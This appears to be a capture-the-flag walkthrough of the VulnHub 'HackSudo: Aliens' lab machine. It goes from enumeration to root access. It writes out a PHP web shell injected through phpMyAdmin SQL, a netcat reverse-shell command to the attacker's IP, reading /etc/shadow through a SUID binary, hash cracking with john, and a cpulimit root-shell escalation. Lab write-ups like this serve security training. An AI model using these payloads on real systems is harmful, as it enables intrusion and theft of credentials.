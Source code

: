 # HackSudo: Aliens Writeup, Walkthrough
https://www.vulnhub.com/entry/hacksudo-aliens,676/

## First, I have to get the IP address of the box

-       sudo netdiscover -t eth1

## Enumeration 
- I run a nmap scan to see what ports are open and what services are running.
    -       nmap -sC -sV -oN nmap.txt 192.168.190.149
    - Open ports
        - 22 SSH - OpenSSH 7.9p1
        - 80 HTTP - Apache httpd 2.4.38
        - 9000 HTTP - Apache httpd 2.4.38
        - ![](pix/nmap.png)

- The webpage in port 9000 is running phpMyAdmin and the default credentials doesn't work.
    - ![](pix/phpadmin1.png)
    - I ran a directory scanner but did not find anything that will help me gain access.

- While enumerating the webpage in port 80, I ran a gobuster scan to see hidden directories

    -       gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -u http://192.168.190.149
        - I used -x to look for html, php and txt files
    - ![](pix/gobuster.png)

- In the /backup page, where is a mysql.bak file. Let's download it and see whats inside it. 
    -           wget http://192.168.190.149/backup/mysql.bak
               cat mysql.bak

- The mysql.bak reveals a user and password.
    - vishal:hacksudo
    - ![](pix/creds.png)

- Using vishal:hacksudo logs us into phpMyAdmin and it shows the version 5.1.0
    - ![](pix/phpadmin2.png)

- Googling 'phpmyadmin reverse shell' led me to [this page](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) which shows how to upload a reverse shell. 

- I added a new database with my own php code to execute any command that I want. The end point is to get a reverse shell.

- Click new, and give any name and select collation
    - Then click on the SQL tab and insert the php code. 
    -     SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd3.php"
        - ![](pix/phpadmin3.png)
        - Then click go to save.

- Since I saved the file to /var/www/html/, I can go to http://192.168.190.149/cmd3.php?cmd="COMMAND HERE" to execute commands.
- To test the exploit visiting http://192.168.190.149/cmd3.php?cmd=whoami return www-data
    - Now I can use nc to send a reverse shell.
    - ```nc -lnvp 4444``` on my machine to start listener.
    -     http://192.168.190.149/cmd3.php?cmd=nc -e /bin/bash 192.168.190.143 4444
    - ![](pix/shell.png)
    - aaaaand we have a shell.
    - to upgrade the shell
        -     python -c 'import pty; pty.spawn("/bin/bash")'
    


## Privilege Escalation

- `sudo -l` requires  a password so no luck there.
- kernel 4.19.0-16 does not have an exploit
- Checking for SUID binaries
    -     find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    - /usr/bin/date looks interesting
    - upon checking [gtfobins](https://gtfobins.github.io/gtfobins/date/) it loks like I can abuse date to read any file as root.
    - ![](pix/gtfo.png)

- I decided to read the /etc/shadow file to see the hashed passwords for the users.
    -     /usr/bin/date -f /etc/shadow
- I copy the password of hacksudo user into a text file so I can crack the password with john.
    -     echo '''hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::''' > password.txt
- Then I used john to crack the password
    -     john --wordlist=/usr/share/wordlists/rockyou.txt password.txt
    - ![](pix/john.png)
    - `hacksudo:aliens`
- I terminated the current shell and ssh into the machine with hacksudo's credentials.
    - `ssh hacksudo@192.168.190.149`


## Privilege Escalation ..... again...

- In the home folder of hacksudo, the `.bash_history` shows that `cpulimit` can be used to spawn root shell.
    - ![](pix/cpu.png)
- I can run the same command which should spawn a root shell.

-     ./cpulimit -l 100 -f -- /bin/sh -p
- ![](pix/root.png)
- Now I can read root.txt



### bada bing bada boom .... We have rooted HackSudo: Alien





